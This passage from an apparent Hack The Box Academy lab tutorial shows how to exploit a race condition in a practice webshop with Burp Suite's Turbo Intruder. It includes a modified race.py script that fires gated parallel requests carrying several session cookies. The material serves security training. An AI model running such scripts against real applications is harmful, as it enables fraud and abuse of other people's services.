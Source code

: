 ![image](https://academy.hackthebox.com/storage/modules/205/timing/webshop_4.png)

**Note:** This script does not exist in the latest version of Turbo Intruder. If you are already familiar with Turbo Intruder, feel free to use any other script as a baseline and adjust it to your needs. Otherwise, you can find the `race.py` script in the Turbo Intruder GitHub repository [here](https://github.com/PortSwigger/turbo-intruder/blob/b5c6e2d614cf8db0e9b02a32dd06119161888e17/resources/examples/race.py). You can simply copy and paste it into the Turbo Intruder window and continue from there.

The turbo intruder window consists of two main parts: the HTTP request at the top and the exploit script at the bottom. The script at the bottom is written in Python, and we can modify it according to our needs. Turbo Intruder inserts a payload into the request wherever a `%s` is specified. In our case, we need to add different session cookies to the requests to avoid running into the file lock issue. Therefore, we will modify the request at the top by replacing the session cookie with the value `%s` such that the corresponding line looks like this:

```http
<SNIP>
Cookie: PHPSESSID=%s
<SNIP>

```

Here is the final request:

![image](https://academy.hackthebox.com/storage/modules/205/timing/turbointruder_2.png)

Now we have to specify the payload, which is the second parameter of the `engine.queue` function call. Thus, we modify the exploit script to look like this by inserting the valid session cookies we obtained in the previous step:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for sess in ["p5b2nr48govua1ieljfdecppjg", "48ncr9hc1rjm361fp7h17110ar", "0411kdhfmca5uqiappmc3trgcg", "m3qv0d1qu7omrtm2rooivr7lc4", "onerh3j83jopd5ul8scjaf14rr"]:
        engine.queue(target.req, sess, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```
